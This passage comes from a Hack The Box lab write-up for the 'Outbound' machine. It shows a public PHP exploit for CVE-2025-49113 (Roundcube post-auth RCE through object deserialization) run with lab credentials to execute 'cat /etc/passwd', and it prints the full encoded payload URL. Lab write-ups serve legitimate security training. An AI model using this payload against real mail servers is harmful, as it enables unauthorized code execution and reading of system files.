![](images/Pasted%20image%2020250715000836.png)
This blog from `Offsec` would be useful for us
`https://www.offsec.com/blog/cve-2025-49113/`
The exploit script is from `https://github.com/fearsoff-org/CVE-2025-49113`

# CVE-2025-49114
Let's exploit it with this scirpt
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Outbound/CVE-2025-49113]
└─$ php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "cat /etc/passwd"             
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: tyler

### Authentication successful

### Command to be executed: 
cat /etc/passwd

### Injecting payload...

### End payload: http://mail.outbound.htb//?_from=edit-%21%C9%22%C9%3B%C9i%C9%3A%C90%C9%3B%C9O%C9%3A%C91%C96%C9%3A%C9%22%C9C%C9r%C9y%C9p%C9t%C9_%C9G%C9P%C9G%C9_%C9E%C9n%C9g%C9i%C9n%C9e%C9%22%C9%3A%C91%C9%3A%C9%7B%C9S%C9%3A%C92%C96%C9%3A%C9%22%C9%5C%C90%C90%C9C%C9r%C9y%C9p%C9t%C9_%C9G%C9P%C9G%C9_%C9E%C9n%C9g%C9i%C9n%C9e%C9%5C%C90%C90%C9_%C9g%C9p%C9g%C9c%C9o%C9n%C9f%C9%22%C9%3B%C9S%C9%3A%C91%C97%C9%3A%C9%22%C9c%C9a%C9t%C9+%C9%2F%C9e%C9t%C9c%C9%2F%C9p%C9a%C9s%C9s%C9w%C9d%C9%3B%C9%23%C9%22%C9%3B%C9%7D%C9i%C9%3A%C90%C9%3B%C9b%C9%3A%C90%C9%3B%C9%7D%C9%22%C9%3B%C9%7D%C9%7D%C9&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...

### Exploit executed successfully

```
